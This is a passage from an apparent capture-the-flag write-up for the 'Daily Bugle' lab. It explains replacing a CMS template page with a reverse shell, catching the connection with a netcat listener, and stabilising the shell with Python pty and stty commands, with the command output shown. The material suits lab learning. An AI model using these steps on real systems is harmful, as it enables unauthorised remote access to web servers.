 ![](/assets/img/daily-bugle-edit-template.PNG) 

I'll edit `index.php` but you can choose the page you like most. Overwrite its content with the revshell source code (remember to edit the IP address and the port) and click on "Save & Close". Now you have to setup a netcat listener and refresh the page you just modify.

```
nc -lnvp 4242
Listening on [0.0.0.0] (family 0, port 4242)
Connection from 10.10.24.96 49750 received!
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 02:47:53 up 15 min,  0 users,  load average: 0.08, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```

Let's stabilize our shell

```
sh-4.2$ which python
/usr/bin/python
sh-4.2$ python -c 'import pty; pty.spawn("bin/bash");'
bash-4.2$ ^Z
$ stty raw -echo
$ fg
bash-4.2$ export TERM=xterm
bash-4.2$ whoami

apache
```

